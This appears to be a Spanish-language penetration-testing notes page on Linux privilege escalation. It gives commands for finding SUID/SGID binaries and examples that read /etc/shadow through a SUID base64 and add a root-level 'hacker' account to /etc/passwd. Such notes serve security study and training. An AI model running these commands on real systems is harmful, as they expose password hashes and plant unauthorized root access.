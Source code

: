 # Tools and Methodology PrivEsc

## Methodology

.

{% code overflow="wrap" %}
```bash
# para obtener todos los SUID
find / -perm -4000 2>/dev/null

# para obtener todos los SGID/"GUID"
find / -perm -2000 2>/dev/null

# encuentra todos los sticky bits
find / -perm -1000 2>/dev/null

# Buscar en GTFOBins si alguno de los programas listados anteriormente tiene SUID

# Seguir los pasos y explotar

Otro:
# Enumerar los archivos que tienen configurados los bits SUID o SGID
find / -type f -perm -04000 -ls 2>/dev/null
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Ejemplos de aplicaciones:

* Base64

{% code overflow="wrap" %}
```bash
LFILE=/etc/shadow  #Ponemos en variable LFILE el archivo con priv que queremos leer
/usr/bin/base64 "$LFILE" | base64 --decode #Ejecutamos lectura con base64 que tiene SUID
```
{% endcode %}

* Nano

{% code overflow="wrap" %}
```bash
# Generar un valor hash de la contraseña que queremos que tenga el nuevo usuario con openssl
openssl passwd -a salt <algo> <password>
# Luego agregaremos esta contraseña con un nombre de usuario al /etc/passwd archivo abriendo con sudo porque tiene el bit SUID
sudo nano /etc/passwd
hacker:<hash>:0:0:root:/root:/bin/bash
#cambiar a ese usuario
su hacker
```
{% endcode %}

![](<../.gitbook/assets/image (11).png>)

## Tools

GTFOBins: a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

{% embed url="https://gtfobins.github.io/" %}
GTFOBins link
{% endembed %}

LinPEAS & WinPEAS:&#x20;

